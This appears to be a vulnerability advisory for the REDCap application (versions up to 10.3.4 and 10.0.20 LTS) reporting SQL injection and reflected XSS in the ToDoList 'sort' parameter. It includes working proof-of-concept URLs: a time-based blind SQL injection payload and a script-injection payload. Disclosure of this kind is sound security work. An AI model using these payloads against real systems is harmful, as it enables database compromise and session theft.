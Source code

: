 ## Vendor:
    Redcap app  

## Affected version:
The issue exists to version 10.3.4 and 10.0.20 (LTS) 

## Description:   
1.	SQL injection attack allow attackers to spoof identity, tamper with existing data, cause repudiation issues such as voiding transactions or changing balances, allow the complete disclosure of all data on the system, destroy the data or make it otherwise unavailable, and become administrators of the database server

2. The XSS vulnerability exists in the ToDoList function with parameter sort, the information submitted by the user is immediately returned in the response and not escaped leading to the Reflect XSS vulnerability. Attackers can exploit vulnerabilities to steal login session information or borrow user rights to perform unauthorized acts
This vulnerability occurs when Completed & Archived Requests has more than 10 records, the application starts paging, and the vulnerability exists here.


## Proof of Concept:

1. SQLInjection : redcap_v10.3.4/ToDoList/index.php?sort=(select case when (1=2) then 1 else 1*((select*from(select(sleep(5)))a))end)
<p align="center">
<img src="https://github.com/vuongdq54/RedCap/blob/main/sql_todolist_sort_1.JPG" />
<img src="https://github.com/vuongdq54/RedCap/blob/main/sql_todolist_sort_2.JPG" />
</p>

2. XSS : redcap_v10.3.4/ToDoList/index.php?sort=abc%27/%3E%3Cscript%3Ealert(%27xss%27)%3C/script%3E
<p align="center">
<img src="https://github.com/vuongdq54/RedCap/blob/main/pre_XSS_Todolist.JPG" />
<img src="https://github.com/vuongdq54/RedCap/blob/main/XSS_Todolist.JPG" />
</p>

## Reference
https://www.project-redcap.org/
